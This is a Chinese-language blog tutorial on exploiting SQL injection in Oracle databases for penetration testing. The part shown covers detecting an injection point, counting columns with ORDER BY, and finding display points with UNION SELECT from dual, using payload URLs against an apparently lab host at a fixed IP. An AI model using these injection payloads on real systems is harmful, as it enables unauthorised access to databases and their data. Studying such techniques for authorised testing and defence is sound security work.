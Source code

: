 ```yaml
---
title: Oracle数据库注入全方位利用总结(渗透必备)
tags: 
  - 数据库
  - SQL注入
  - oracle
categories: web安全
keywords: '数据库,web安全,oracle,sql注入'
description: Oracle数据库注入全方位利用总结(渗透必备)
cover: /images/oracle.png
date: 2021-02-02 10:45:41
---
```


<meta name="referrer" content="no-referrer"/>

> 本文已发布到先知社区：https://xz.aliyun.com/t/9940
>
> 作者：ajie

# 0x01 前言

在渗透测试过程中，总是遇到不熟悉的数据库，知道了有SQL注入漏洞但是无法利用，这总让我很苦恼。因为网上的文章很多都是基于Mysql数据库的，当遇到Oracle数据库时有些数据库层面的不同点对于我们测试总会有点困扰，无法成功利用。故学习了Oracle数据库注入的相关知识，在此总结分享给大家，希望能够对安全从业人员有所帮助。
全文基于对于SQL注入具有一定理解，并且能够在Mysql数据库进行注入的基础上进行阐述。本文旨在讲述Oracle数据库多种情况下如何进行注入，注重实战，相关概念问题请自行查阅资料，谢谢理解～

# 0x02 注入点确定
跟其他数据库一样，检测注入点都是可以通过拼接and语句进行判断。这里通过and 1=1 和and 1=2进行判断。实战中还可以通过延时函数进行判断。
```
http://219.153.49.228:43469/new_list.php?id=1%20and%201=1
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627353232047-3c17c5db-589b-4002-a82a-6fbe01e576fe.png#align=left&display=inline&height=439&margin=%5Bobject%2Object%5D&name=image.png&originHeight=878&originWidth=1608&size=122915&status=done&style=none&width=804)
```
http://219.153.49.228:43469/new_list.php?id=1%20and%201=2
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627353242702-ec873de8-7a5e-4bf6-b14f-3768ee4e8e76.png#align=left&display=inline&height=278&margin=%5Bobject%2Object%5D&name=image.png&originHeight=556&originWidth=1578&size=35308&status=done&style=none&width=789)
# 0x03 显错注入
## 1、判断字段数为2
与其他注入一样，这里通过order by来判断字段数。因为order by 2页面正常，order by 3页面不正常，故判断当前字段数为2。
```
http://219.153.49.228:43469/new_list.php?id=1%20order%20by%202
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627353279684-e0cc78c5-4353-4770-82e2-44b3b6176214.png#align=left&display=inline&height=420&margin=%5Bobject%2Object%5D&name=image.png&originHeight=840&originWidth=1458&size=116992&status=done&style=none&width=729)
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627353306166-7c477672-384f-4899-ab58-d487f859a22d.png#align=left&display=inline&height=220&margin=%5Bobject%2Object%5D&name=image.png&originHeight=440&originWidth=1412&size=29793&status=done&style=none&width=706)
## 2、获取显错点
联合查询这里使用了union select，oracle数据库与mysql数据库不同点在于它对于字段点数据类型敏感，也就是说我们不能直接union select 1,2,3来获取显错点了，需要在字符型字段使用字符型数据，整型字段使用整型数据才可以。如下，两个字段都为字符型，故使用union select 'null','null'。
(在有些情况下也采用union all select的形式进行联合查询。union all select与union select的不同点可以很容易理解为all表示输出所有，也就是当数据出现相同时，将所有数据都输出；union select则会将相同数据进行过滤，只输出其中一条。)
```
#联合查询
http://219.153.49.228:43469/new_list.php?id=-1 union select null,null from dual
#修改null为'null'，判断字段类型均为字符型
http://219.153.49.228:43469/new_list.php?id=-1 union select 'null','null' from dual
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627353537650-e294e0ca-44d5-4884-9341-27dd41eff277.png#align=left&display=inline&height=500&margin=%5Bobject%2Object%5D&name=image.png&originHeight=1000&originWidth=2526&size=171188&status=done&style=none&width=1263)